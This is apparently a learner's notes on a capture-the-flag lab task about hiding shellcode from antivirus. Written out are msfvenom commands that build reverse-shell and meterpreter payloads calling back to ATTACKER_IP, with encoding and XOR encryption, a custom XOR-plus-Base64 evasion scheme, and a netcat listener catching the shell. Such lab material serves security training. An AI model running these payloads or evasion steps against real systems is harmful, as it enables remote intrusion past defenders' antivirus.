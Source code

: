 # Task 8 Shellcode Encoding and Encryption

Task 8 Shellcode Encoding and Encryption

# Encode using MSFVenom

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:

Listing Encoders within theMetasploitFramework

```
user@AttackBox$ msfvenom --list encoders | grep excellent    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

```bash
msfvenom --list encoders | grep excellent
```

We can indicate we want to use the **`shikata_ga_nai`** encoder with the **`-e`**(encoder) switch and then specify we want to encode the payload three times with the **`-i`** (iterations) switch:

Encoding using the Metasploit framework (Shikata_ga_nai)

```
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharpFound 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

```bash
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:

<img src="images/t8_1.png">

If encoding doesn't work, we can always try encrypting the payload. Intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV. Let's try that now.

# Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The choices for encryption algorithms are, however, a bit scarce. To list the available encryption algorithms, you can use the following command:

Listing encryption modules within theMetasploitFramework

```
user@AttackBox$ msfvenom --list encryptFramework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

```bash
msfvenom --list encrypt
```

Let's build an XOR-encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

Xoring Shellcode using the Metasploit framework

```
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

Once again, if we upload the resulting shell to the THM Antivirus Check! page at **`http://10.10.189.219/`**, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

# Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:

Generate a CSharp shellcode Format

```
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

```bash
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

# The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at C:\Tools\CS Files\Encryptor.cs):

[*Full Payload Code (Click to read)*](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md) 

[link to encoder](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md)

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the **`buf`** variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

Compiling and running our custom CSharp encoder

```
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

```bash
csc.exe Encrypter.cs
```

```bash
.\Encrypter.exe
```

# Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at **`C:\Tools\CS Files\EncStageless.cs`**):

[*Full Payload Code (Click to read)*](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Enc%20Stageless%20cs%20708230a1f2424e068fa158c44c73b5db.md)

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

Compile Our Encrypted Payload

```
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an **`nc`** listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

Set Up nc Listener

```
user@AttackBox$ nc -lvp 443Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.

Answer the questions below:

Try to use this technique (combining encoding and encryption) on the THM Antivirus Check at **`http://10.10.189.219/`**. Does it bypass the installed AV software?

yes/NAN

[Encoder](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md)

[Enc Stageless.cs](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Enc%20Stageless%20cs%20708230a1f2424e068fa158c44c73b5db.md)
